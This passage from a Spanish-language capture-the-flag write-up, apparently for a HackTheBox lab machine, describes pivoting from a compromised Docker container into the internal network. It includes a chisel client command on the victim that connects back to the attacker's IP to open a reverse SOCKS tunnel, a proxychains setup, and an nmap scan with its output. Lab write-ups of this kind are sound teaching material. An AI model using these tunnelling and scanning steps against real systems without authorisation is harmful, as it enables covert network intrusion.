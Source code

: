 ### Reconocimiento desde la red interna

La IP que tiene asignada el contenedor es la *172.18.0.4* (esta IP puede variar dependiendo de los contenedores que haya desplegados):

![imagen 24](Pasted image 20230215221620.png)

La IP *172.18.0.1* debería pertenecer a la **máquina víctima**, por la forma en la que *Docker* asigna las IP a los *hosts*. Esto quiere decir que el *host* que estamos atacando tendrá una interfaz con la IP *10.10.11.184* y otra interfaz, normalmente llamada *docker0*, con la IP *172.18.0.1*.


Recordemos que podemos obtener **resultados diferentes** escaneando un host desde la red interna a hacerlo desde el exterior. Otro punto importante es el no tener acceso a *dev.rainycloud.htb* desde el exterior (El servidor respondía con ***Access Denied - Invalid IP***). Vamos a utilizar *chisel* y *proxychains* para escanear los puertos de la *10.10.11.185* desde nuestra máquina de atacante, pero pasando por el contenedor para hacerlo desde la red interna. Posteriormente, investigaremos el **subdominio** *dev.rainycloud.htb*, también desde la red interna.

#### 172.18.0.1 Internal Port Discovery

> Paso optativo. No encontraremos abierto ningún puerto interesante.
{: .prompt-info }

Emplearemos [chisel](https://github.com/jpillora/chisel) para tener conexión desde nuestro equipo de atacante a la **172.18.0.1** y poder así analizar sus puertos abiertos.

En mi máquina descargaré el *chisel* de 64 bits y lo ejecutaré de la siguiente manera:

![imagen 25](Pasted image 20230216000517.png)

En la máquina víctima, ejecutaremos el *chisel* de 64 bits de la siguiente forma (previamente lo deberemos transferir a la máquina desplegando, por ejemplo, un servidor *python*):

```bash
/tmp $ ./chisel client 10.10.14.65:1234 R:socks
```

El resultado debería ser el siguiente:

![imagen 26](Pasted image 20230216000853.png)

Estamos estableciendo un tipo de conexión **_SOCKS_**. Esto nos permitirá tener acceso completo a la ip **172.18.0.1** a través del puerto **1080** de nuestro **_localhost_**.

Por último nos faltará configurar la herramienta **_proxychains_** para escanear sus puertos pasando por el *localhost:1080*. El archivo de configuración de la herramienta lo podemos encontrar en la ruta **_/etc/proxychains.conf_**. En caso de no tenerlo se tendrá que instalar la herramienta. Deberemos introducir al final del archivo la siguiente línea: `socks5 127.0.0.1 1080`.

Utilizaremos _nmap_ para descubrir los puertos abiertos de la ip **172.18.0.1**. En mi caso escanearé los **200 más comunes**. El comando que ejecutaremos será:

```bash
$> proxychains4 -q nmap -sT -n -Pn --top-ports 200 -v 172.18.0.1

Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-14 12:51 CET
Initiating Connect Scan at 12:51
Scanning 172.18.0.1 [200 ports]
Discovered open port 22/tcp on 172.18.0.1
Discovered open port 80/tcp on 172.18.0.1
Discovered open port 49153/tcp on 172.18.0.1
Discovered open port 49154/tcp on 172.18.0.1
Completed Connect Scan at 12:52, 56.67s elapsed (200 total ports)
Nmap scan report for 172.18.0.1
Host is up (0.28s latency).
Not shown: 196 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
```